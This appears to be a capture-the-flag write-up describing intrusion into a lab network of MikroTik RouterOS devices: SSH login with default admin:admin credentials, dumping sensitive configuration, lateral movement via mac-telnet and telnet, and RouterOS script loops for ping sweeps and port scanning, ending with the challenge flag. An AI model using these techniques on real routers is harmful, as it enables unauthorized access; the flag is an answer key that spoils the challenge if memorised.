

# SSH

Scanning the port reveals an SSH service running on the port. 

Using `admin:admin` gives access to a Mikrotik box `jumphost`. The RouterOS has it's own shell with limited tools and functionality.

```bash
ssh admin@10.10.9.11 -p 20242
```



# Looking around

Checking the config doesn't show anything useful. The flag is not there.

```
/export show-sensitive verbose
```

# Passive Scanning

Scanning from the perimeter router is possible with a few built-in tools (20561 is used by the mac-telnet, see later).

```
/tool/ip-scan
/tool/mac-scan
/tool/sniffer/quick port!=20561
```


This reveals further hosts. 

# Lateral movement

Those hosts are also running RouterOS, as we can connect to them with the mac-telnet utility, with the same `admin:admin` credentials.

```
/tool/mac-telnet 52:55:0A:00:02:02 # jumphost
/tool/mac-telnet 52:55:0A:00:02:03 # jumphost
/system/telnet 10.0.2.15 # jumphost
/system/telnet 10.3.6.49 # MikroTik
```


While we have little more permissions on those hosts, the sniffing doesn't reveal any new useful information. DHCP leases doesn't reveal anything.

Checking the next config don't show anything useful. The flag is not there either.


# Active Scanning

## Routes 

The routing information reveal some other subnets.

```
/ip route print
```


## Host discovery

The shell has scripting capabilities with ping can be utilized to scan for even more hosts.

```
:for i from=1 to=255 do={ /ping "10.3.6.$i" count=1 }
```


Running it on all hosts reveals an extra host reachable from the internal machines, `10.3.6.50`.

## Port scanning

The scripting and the fetch tool can be used to scan for ports (http). Fortunately there is a reply on closed ports, so waiting for timeout is not required and the scan goes relatively fast.

```
:for i from=1 to=65535 do={ :do { /tool/fetch output=user http-method=get url="http://10.3.6.50:$i/" } on-error={ :put $i } }
```


On port 80, there is a mikrotik login page.


# Telnet

Using the telnet utility to move to that box reveals the flag in the banner.

```
/system/telnet 10.3.6.50 # p1
```


# Flag

`CQ24{ROUTEROS-CREATIVE-DISCOVERY-METHODOLOGIES}`